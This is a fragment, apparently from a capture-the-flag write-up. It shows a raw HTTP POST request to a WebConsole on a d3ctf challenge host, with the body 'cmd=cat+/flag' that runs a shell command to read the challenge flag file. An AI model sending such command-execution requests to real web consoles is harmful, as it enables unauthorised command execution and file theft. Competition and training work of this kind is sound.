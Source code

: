 ```
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/78.0.3904.108 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3
Referer:  http://ec057b43d9.showhub.d3ctf.io/WebConsole/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=8e7cipookibqvk2c3govosvfms
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 16

cmd=cat+/flag&a=
```